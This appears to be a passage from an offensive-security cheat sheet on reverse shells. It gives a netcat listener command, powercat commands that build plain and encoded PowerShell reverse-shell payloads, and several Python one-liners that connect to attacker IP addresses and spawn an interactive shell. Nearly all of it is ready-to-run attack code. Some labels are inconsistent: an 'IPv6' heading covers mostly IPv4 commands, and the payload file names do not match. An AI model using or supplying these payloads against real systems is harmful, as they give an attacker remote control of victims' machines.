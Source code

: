 In the context of powercat, a payload is a set of powershell instructions as well as the portion of the powercat script itself that only includes the features requested by the user

first we launch a netcat listener in attacker machine:

```
nc -nvlp 4444
```

​​we create a stand-alone reverse shell payload by adding the -g option to the previous powercat command and redirecting the output to a file. This will produce a powershell script that attacker can execute on his machine

```
powercat -c 10.11.0.4 -p 4444 -e cmd.exe -g > reverseshell.ps1
./reverseshell.ps1
```

To generate a stand-alone encoded payload, we use the -ge option and once again redirect the output to a file:

```
powercat -c 10.11.0.4 -p 4444 -e cmd.exe -ge > encrypted-reverseshell.ps1
```

The file will contain an encoded string that can be executed using the PowerShell -E (EncodedCommand) option. However, since the -E option was designed as a way to submit complex commands on the command line, the resulting encodedreverseshell.ps1 script can not be executed in the same way as our unencoded payload. Instead, Bob needs to pass the whole encoded string to powershell.exe -E so we copy the whole file and paste it in the console:

```
powershell.exe -E [code]
```

## Python

### for Linux

```
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  
```

#### IPv6

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
